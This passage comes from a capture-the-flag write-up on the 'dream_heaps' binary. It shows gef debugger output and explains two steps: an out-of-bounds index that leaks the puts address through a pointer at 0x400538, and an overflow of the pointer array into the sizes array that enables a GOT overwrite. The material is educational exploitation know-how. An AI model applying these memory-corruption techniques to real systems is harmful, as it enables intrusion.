 ```
gef➤  p puts
$1 = {int (const char *)} 0x7ffff7a649c0 <_IO_puts>
gef➤  search-pattern 0x7ffff7a649c0
[+] Searching '0x7ffff7a649c0' in memory
[+] In '/Hackery/pod/modules/index/swampctf19_dreamheaps/dream_heaps'(0x602000-0x603000), permission=rw-
  0x602020 - 0x602038  →   "\xc0\x49\xa6\xf7\xff\x7f[...]"
gef➤  search-pattern 0x602020
[+] Searching '0x602020' in memory
[+] In '/Hackery/pod/modules/index/swampctf19_dreamheaps/dream_heaps'(0x400000-0x401000), permission=r-x
  0x400538 - 0x400539  →   "`"
```

Here we can see that the address `0x400538` will work for us. To leak the address we just need to read the dream at offset `-263021`. This is because `HEAP_PTRS` starts at `0x6020a0` and `0x6020a0 - 0x400538 = 0x201b68` and `0x201b68 / 8 = 263021`.

Now for the got overwrite, we can use a couple of things to exploit that. Firstly if we make enough dreams, they will overflow into the sizes. This is because there isn't a check for this, and `SIZES` starts at `0x602080` and `HEAP_PTRS` starts at `0x6020a0`. The difference between the two is `0x40` bytes, and since pointers are `0x8` bytes it will just be `8` pointers before we start overflowing them. In addition to that since ints are `4` bytes, the two will overlap nicely and end up being written behind the pointers. When we try making a lot of different dreams, we see that we can end up writing a pointer than can be reached by the `edit_dream` function:

```
gef➤  x/30g 0x6020a0
0x6020a0 <HEAP_PTRS>: 0x00000000013ea020  0x00000000013ea040
0x6020b0 <HEAP_PTRS+16>:  0x00000000013ea070  0x00000000013ea0b0
0x6020c0 <HEAP_PTRS+32>:  0x00000000013ea100  0x00000000013ea160
0x6020d0 <HEAP_PTRS+48>:  0x00000000013ea1d0  0x00000000013ea250
0x6020e0 <SIZES>: 0x00000000013ea2e0  0x00000000013ea380
0x6020f0 <SIZES+16>:  0x00000000013ea430  0x00000000013ea4f0
0x602100: 0x00000000013ea5c0  0x00000000013ea6a0
0x602110: 0x00000000013ea790  0x00000011013ea890
0x602120: 0x0000003300000022  0x0000005500000044
0x602130: 0x0000007700000066  0x0000009900000088
0x602140: 0x000000bb000000aa  0x000000dd000000cc
0x602150: 0x00000000013eaac0  0x00000000013eab50
0x602160: 0x00000000013eac00  0x00000000013eacc0
0x602170: 0x00000000013ead90  0x00000000013eae70
0x602180: 0x0000000000000000  0x0000000000000000
```

The pointers are addresses like 0x13eaac0, and the sizes are the integers like 0x99 and 0x88. At 0x602128 (which would be at index 17) we can see would be a nice place to write a pointer with the sizes. This is not only because we control it with sizes, but when we edit a dream it will also grab a size from the SIZES array that we will need to be at least 0x8. If we choose index 17, it will grab the integer from 0x602124 which we also control it with the sizes. So by choosing the offset 17 to edit, by making dreams with certain sizes we can control both the address that is written to and the size.
